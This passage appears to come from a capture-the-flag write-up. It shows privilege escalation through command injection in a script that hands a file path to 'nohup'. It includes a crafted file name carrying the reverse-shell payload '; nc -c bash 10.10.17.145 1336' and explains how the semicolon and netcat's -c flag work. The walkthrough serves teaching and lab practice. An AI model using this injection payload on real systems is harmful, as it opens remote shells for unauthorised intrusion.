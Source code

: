![](./IMG/17.png)
- Second, the interesting point for this code is on 'nohup' command, it wil take user input : ```$path$value``` as prameter.
- so that is the point I can use to escalate the permission.

![](./IMG/18.png)
- Then according to the start of the code snippet, the origin path should be ```/var/www/html/uploads```
- Then create a fake file and named it with some reverse shell command, like ``` ; nc -c bash 10.10.17.145 1336 ```

![](./IMG/19.png)
- ```;``` used to seperate the previous command in source code
- command nc with ```-c ``` to specify the shell command to execute.  
